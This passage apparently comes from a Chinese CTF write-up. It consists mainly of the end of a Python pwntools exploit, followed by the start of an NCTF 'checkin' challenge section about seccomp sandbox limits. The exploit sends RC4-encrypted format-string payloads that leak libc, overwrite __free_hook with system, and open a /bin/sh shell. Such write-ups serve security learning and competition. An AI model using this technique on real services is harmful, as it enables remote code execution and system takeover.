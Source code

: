 ```python
-----END PUBLIC KEY-----
"""


p.send("yes\x00")
pause()
p.send(func(b"root",b"root"))
pause()
p.send(root_public_key)
ru("Login succeess ")
rn(0x3f0)
rc4_key=int(ru('00'),16)
rc4_key=int_to_bytes(rc4_key)

print(rc4_key)


msg = rc4_encrypt(b'%1459$p',rc4_key)
if debug:
    gdb.attach(p_server,"b *$rebase(0x000482B)")
    pause()
sl(msg)
p_server.recvuntil("The rc4_msg is")
p_server.recvuntil("The decode  rc4_msg is ")
p_server.recvline()
libc_base=int(p_server.recvuntil("\n")[:-1],16)-libc.sym['write']-100
lg("libc_base")
free_hook=libc_base+libc.sym['__free_hook']
sys_addr=libc_base+libc.sym['system']
lg("free_hook")
lg("sys_addr")
for i in range(6):
    payload1=b'%' + str(((sys_addr)>>(8*i)) & 0xff).encode() + b'c%15$hhn'
    payload1=rc4_encrypt(payload1,rc4_key)
    payload=payload1.ljust(0x48,b"\x00")+p64(free_hook+i)
    sl(payload)
    pause()
payload=rc4_encrypt(b"/bin/sh\x00",rc4_key)
sl(payload)
p.close()
p_server.interactive()
```



## NCTF

### checkin

本题开启的沙箱使用seccomp-tools 显示有点问题，应该是运行write 调用，但是要求fd为1，count 为1，read 要求fd为0，count为1。
